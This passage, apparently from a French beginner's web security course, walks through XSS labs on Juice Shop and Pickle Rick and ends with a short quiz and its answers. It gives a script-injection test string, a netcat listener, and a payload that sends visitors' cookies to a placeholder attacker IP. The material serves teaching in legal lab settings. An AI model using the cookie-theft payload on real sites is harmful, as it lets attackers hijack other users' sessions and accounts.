 2. **Injection dans le nom d'utilisateur** :
   - Essayer de changer le nom pour inclure du JavaScript :
     ```
     User<script>alert('XSS')</script>
     ```

3. **Vérification** :
   - Observer si le code est exécuté lorsque le profil est affiché

##### Exploitation avancée : vol de cookie

1. **Préparation du serveur de collecte** :
   ```bash
   # Sur votre machine d'attaque
   nc -lvp 8888
   ```

2. **Payload pour exfiltration** :
   ```javascript
   <script>
   fetch('http://VOTRE_IP:8888/cookie=' + encodeURIComponent(document.cookie))
   </script>
   ```

3. **Injection et attente** :
   - Injecter le payload dans un vecteur XSS stocké
   - Attendre que d'autres utilisateurs (ou administrateurs) visitent la page

**En clair, pour un débutant :**
Ces mini-labs sont comme des parcours d'obstacles conçus pour pratiquer vos compétences. Dans Pickle Rick, vous explorez un serveur mal sécurisé en utilisant l'injection de commandes pour trouver des "ingrédients" cachés. Dans Juice Shop, vous injectez du code JavaScript dans différentes parties de l'application pour démontrer comment un attaquant pourrait exécuter du code malveillant dans le navigateur des utilisateurs. Ces exercices pratiques renforcent votre compréhension des vulnérabilités web dans un environnement contrôlé et légal.

### Quiz Intermédiaire

1. **Quel outil est particulièrement efficace pour l'énumération de sous-domaines en utilisant diverses sources publiques ?**
   - A) dirsearch
   - B) amass
   - C) gobuster
   - D) ffuf
   
   *Réponse : B) amass*

2. **Quelle vulnérabilité permet à un attaquant d'accéder aux données d'autres utilisateurs en modifiant simplement un identifiant dans l'URL ?**
   - A) XSS
   - B) CSRF
   - C) IDOR
   - D) SQLi
   
   *Réponse : C) IDOR*
